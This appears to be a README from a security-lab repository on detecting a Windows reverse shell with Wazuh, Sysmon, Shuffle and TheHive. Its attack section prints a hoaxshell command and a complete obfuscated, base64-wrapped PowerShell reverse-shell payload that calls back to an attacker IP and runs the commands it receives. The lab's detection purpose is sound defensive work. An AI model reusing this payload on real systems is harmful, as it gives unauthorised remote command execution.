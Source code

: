 # Reverse Shell Execution

## Objective
Detect a suspicious external connection that opens a reverse shell from a Windows system.

## Course of attack
Attacker use hoaxshell to generate payload in Kali. Then this payload has to be included in to the PowerShell script. After its execution, attacker can get an access to command line of Windows.  
**Tool**: hoaxshell  
**Command**: `python3 hoaxshell.py -s 192.168.69.200 -r -H "Authorization"`  
**Tool**: PowerShell  
**Scrypt**: 
`$command = @'  
$s='192.168.69.200:8080';$i='197e9fb0-2a86272c-0e33a75c';$p='http://';$v=Invoke-WebRequest -USEBaSicparsing -Uri $p$s/197e9fb0 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-Web''Request -USEBaSicparsing -Uri $p$s/2a86272c -Headers @{"Authorization"=$i}).Content;if ($c -ne 'Hello') {$r=ie''x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -Inpu''tObject $r;$t=Invoke-WebR''equest -Uri $p$s/0e33a75c -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
'@  
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)  
$encodedCommand = [Convert]::ToBase64String($bytes)  
powershell.exe -encodedCommand $encodedCommand  
`  

## Response
- Wazuh Agent detected login errors in Windows event logs by Sysmon and sent a custom rule “Multiple network connection initiated by PowerShell” to Wazuh.
- Wazuh uses configured Webhook to send alert to the Shuffle.
- After receiving a notification in Shuffle, the configured response scenario is automatically launched:
  - Creating alert in TheHive
  - Adding IP of attacker as observable to allert
  - Creating case with observable in TheHive
  - Sending notification to Discord Bot
- In TheHive, IP can be sent to check it with AbuseIPDB or VirusTotal


## Shuffle Workflow
![](../images/shuffle-workflow-shell.png)
